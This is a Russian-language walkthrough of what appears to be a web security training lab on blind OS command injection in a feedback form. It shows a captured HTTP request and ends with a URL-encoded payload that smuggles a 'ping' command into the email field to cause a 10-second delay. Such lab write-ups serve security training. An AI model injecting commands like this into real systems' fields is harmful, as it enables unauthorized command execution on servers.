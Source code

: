 В этой лабораторной работе обнаружена уязвимость слепого внедрения команд ОС в функцию обратной связи.

Приложение выполняет команду оболочки, содержащую предоставленные пользователем данные. Вывод команды не возвращается в ответе.

Для решения лабораторной задачи воспользуйтесь уязвимостью слепого внедрения команд ОС, чтобы вызвать задержку в 10 секунд.

## Дано

- уязвимость слепого внедрения команд ОС в функцию обратной связи.
- вывод команды не возвращается в ответе

## Задача

-  вызвать задержку в 10 секунд


# Решение

1. Поиск функции обратной связи

2. Изучение запроса при отправке обратной связи
`https://0ade007a04309b3a81af166500d1007a.web-security-academy.net/feedback`

Запрос
```
POST /feedback/submit HTTP/2
Host: 0ade007a04309b3a81af166500d1007a.web-security-academy.net
Cookie: session=9h7GRG2VkYcmHC7wtw7nyx1hFIXdc5e6
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 103
Origin: https://0ade007a04309b3a81af166500d1007a.web-security-academy.net
Referer: https://0ade007a04309b3a81af166500d1007a.web-security-academy.net/feedback
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Sec-Gpc: 1
Priority: u=0
Te: trailers
Connection: keep-alive

csrf=tsX3NkX03LRxKK5uhKMYnBJ181IAIJcM&name=name&email=pochta1%40mail.ru&subject=predmet&message=message
```

пробуем email внедрить с кодировкой url
```
pochta1%40mail.ru%3b+ping+-c+10+127.0.0.1+%26
```